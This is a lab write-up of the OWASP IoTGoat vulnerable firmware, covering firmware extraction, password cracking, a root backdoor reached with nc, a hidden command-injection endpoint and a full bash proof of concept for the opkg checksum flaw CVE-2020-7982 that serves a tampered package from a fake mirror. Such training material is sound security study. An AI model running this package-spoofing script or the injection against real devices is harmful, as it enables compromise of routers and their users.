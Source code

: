# IoTGoat - Firmware

You can download the firmware from the official OWASP release:

🔗 [Download IoTGoat Firmware (v1.0)](https://github.com/OWASP/IoTGoat/releases/download/v1.0/IoTGoat-x86.img.gz)

- After downloading the firmware , **extract** the `.img` file . 
- Then use **binwalk** to view/extract the file system embedded in the firmware.

```
$ binwalk IoTGoat-x86.img

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
262144        0x40000         Linux EXT filesystem, blocks count: 4096, image size: 4194304, rev 2.0, ext2 filesystem data, UUID=57f8f4bc-abf4-655f-bf67-946fc0f9c0f9
5325930       0x51446A        xz compressed data
17301504      0x1080000       Squashfs filesystem, little endian, version 4.0, compression:xz, size: 3481630 bytes, 1352 inodes, blocksize: 262144 bytes
```
- Here **Squashfs Filesystem** is the type of compressed file system , used for read-only file-system. This is where the linux files are been held.

---

> Hardcoded Password

- Then you find some hardcoded passwds in /etc/shadow of the squashfs-root. This passwds can be cracked using some tools called `John The Ripper` and `HashCat`.

- I used some commonly used wordlist called mirabot-net. And cracked the passwd for **iotgoatuser**.

- For the root, it didn't work. I used rockyou.txt which also failed. So I tried to make a custom wordlist using some tools called crunch but it didn't as per my thought. So I am searching for some another ways to crack the password.

---
> Legacy network services listening upon start up

- This one is basically using nmap to search for open port in the router's ip.

- I got multiple services, for example:- http server , ssh and also telnetd which asks credentials when connected through nc.

---

> Persistent backdoor daemon configured to run during start up

- I found the backdoor when scanned the ip for open ports.I used nmap to scan for open ports. Some open ports were http,https which shows it is running some web.

- I used used a GUI tool of namp called zenmap in kali linux which hand in-built nmap option where i choose to scan all tcp port. This scan resulted in showing a tcp as backdoor.

- When I tried to connect to it through nc, i got the access as root. I also tried to create a file which was successful.

---

> A "secret" developer diagnostics page not directly accessible and exposes shell access to users

- When you look at the url of the web page , you can see the path of the file (i.e) */www/cgi-bin/luci* which is like a entry-point. By examining it and got to found out that it the code just gets and information and instruction from */usr/lib/lua/luci* (backend).

- Then I checked the controller directory and discovered the IoTGoat backend code for the camera and door modules, as well as a hidden command injection endpoint — **a secret developer diagnostics page**.

- Also it had a command to send through url (i.e) webcmd. I can send cmd through it for example, webcmd?cmd=ls will return me the output.

---

> Insufficient Privacy Protection

- I found out many leaked data using firmwalker which is a automated script to find the binarys, db files and more.

- It showed me many db files and keys for multiple apps. One db was in */usr/lib/lua/luci/controller/iotgoat/sensordata.db* which had email and their birthday dates.

---

> Lack of Device Management

- In the web application, only the kernal logs are avaiable in system. the Openwrt logs are not enabled.

---

> Insecure package update configuration defaults including CVE-2020-7982.

- opkg reads the SHA256sum field but the value has a leading space.The function checksum_hex2bin() tries to skip the space, but by mistake, it still uses the untrimmed version for decoding.This causes the decoding to fail silently, so no checksum gets stored.Later, the checksum check is skipped, allowing tampered packages to be installed without warning.

- So to exploit this **CVE-2020-7982** , we need the patch our own binary with a packages(download from [https://download.openwrt.org](https://download.openwrt.org)).

- We can find the architecture of the file which the opkg download from the server using `opkg print-architecture`.

- After finding the architecture, we can write a script to host a server to mimic the server from which opkg fetch the files and checks its intergity(actually it fails here).

```
#!/bin/bash
set -e
rm -rf downloads.openwrt.org/ attr_20170915-1_i386_pentium4.ipk releases/

wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/base/Packages.gz || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/base/Packages.sig || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/luci/Packages.gz || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/luci/Packages.sig || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/packages/Packages.gz || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/packages/Packages.sig || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/routing/Packages.gz || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/routing/Packages.sig || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/telephony/Packages.gz || true
wget -x https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/telephony/Packages.sig || true
wget -x http://downloads.openwrt.org/releases/18.06.2/targets/x86/generic/packages/Packages.gz || true
wget -x http://downloads.openwrt.org/releases/18.06.2/targets/x86/generic/packages/Packages.sig || true

mv downloads.openwrt.org/releases .
rm -rf downloads.openwrt.org/

wget https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/packages/attr_20170915-1_i386_pentium4.ipk
ORIGINAL_FILESIZE=$(stat -c%s "attr_20170915-1_i386_pentium4.ipk")
tar zxf attr_20170915-1_i386_pentium4.ipk
rm attr_20170915-1_i386_pentium4.ipk
mkdir data/
cd data/
tar zxvf ../data.tar.gz
rm ../data.tar.gz
rm -f /tmp/pwned.asm /tmp/pwned.o
echo "section .text" >>/tmp/pwned.asm
echo "global _start" >>/tmp/pwned.asm
echo "_start:" >>/tmp/pwned.asm
echo " mov edx,len" >>/tmp/pwned.asm
echo " mov ecx,msg" >>/tmp/pwned.asm
echo " mov ebx,1" >>/tmp/pwned.asm
echo " mov eax,4" >>/tmp/pwned.asm
echo " int 0x80" >>/tmp/pwned.asm
echo " mov eax,1" >>/tmp/pwned.asm
echo " int 0x80" >>/tmp/pwned.asm
echo "section .data" >>/tmp/pwned.asm
echo "msg db 'Nice Ch3ck',0xa" >>/tmp/pwned.asm
echo "len equ $ - msg" >>/tmp/pwned.asm
nasm -f elf32 /tmp/pwned.asm -o /tmp/pwned.o
ld -m elf_i386 /tmp/pwned.o -o usr/bin/attr
tar czvf ../data.tar.gz *
cd ../
rm -rf data/
tar czvf attr_20170915-1_i386_pentium4.ipk control.tar.gz data.tar.gz debian-binary
rm control.tar.gz data.tar.gz debian-binary
MODIFIED_FILESIZE=$(stat -c%s "attr_20170915-1_i386_pentium4.ipk")
FILESIZE_DELTA="$(($ORIGINAL_FILESIZE-$MODIFIED_FILESIZE))"
if [ $FILESIZE_DELTA -gt 0 ]; then
  head -c $FILESIZE_DELTA </dev/zero >>attr_20170915-1_i386_pentium4.ipk
fi
wget https://downloads.openwrt.org/releases/18.06.2/packages/i386_pentium4/packages/libattr_20170915-1_i386_pentium4.ipk
mkdir -p releases/18.06.2/packages/i386_pentium4/packages/
mv attr_20170915-1_i386_pentium4.ipk releases/18.06.2/packages/i386_pentium4/packages/
mv libattr_20170915-1_i386_pentium4.ipk releases/18.06.2/packages/i386_pentium4/packages/
sudo python3 -m http.server 80 --bind 0.0.0.0
```

- Above script, sets up a server and mimics as package server. But we should also configue the */etc/host* with our hosting ip. This only works when the opkg searchs for the package in the script's ip. There is also a another way to do without interacting or changes things in firmware, it is called DNS spoofing , which just redirects the request to our package server.

- Then run **opkg update && opkg install attr** which configures the attr perfectly without any warning.

- If we run attr, it displays *Nice Ch3ck*.

		

